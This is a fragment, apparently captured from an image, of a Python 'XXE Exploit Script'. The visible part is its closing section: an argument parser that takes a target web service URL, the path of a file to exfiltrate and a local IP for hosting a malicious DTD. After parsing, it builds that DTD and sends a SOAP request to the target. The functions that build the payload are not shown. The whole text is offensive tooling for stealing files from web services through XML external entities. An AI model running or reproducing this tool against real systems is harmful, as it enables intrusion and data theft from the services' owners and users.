```python
    print("Response Content:")
    print(response.text)
  except Exception as E:
    log("Error occured: {}".format(E), "log")


def main():
    parser = argparse.ArgumentParser(description="XXE Exploit Script")
    parser.add_argument("target_url", help="Target URL of the web service")
    parser.add_argument("file_path", help="Path of the file to exfiltrate")
    parser.add_argument("local_ip", help="Local IP address for DTD hosting")
    
    args = parser.parse_args()

    # Create the malicious DTD
    create_malicious_dtd(args.file_path, args.local_ip)

    # Start the HTTP server in a separate thread
    # Send the SOAP request
    send_soap_request(args.target_url, args.local_ip)

if __name__ == "__main__":
    print_banner()
    main()
```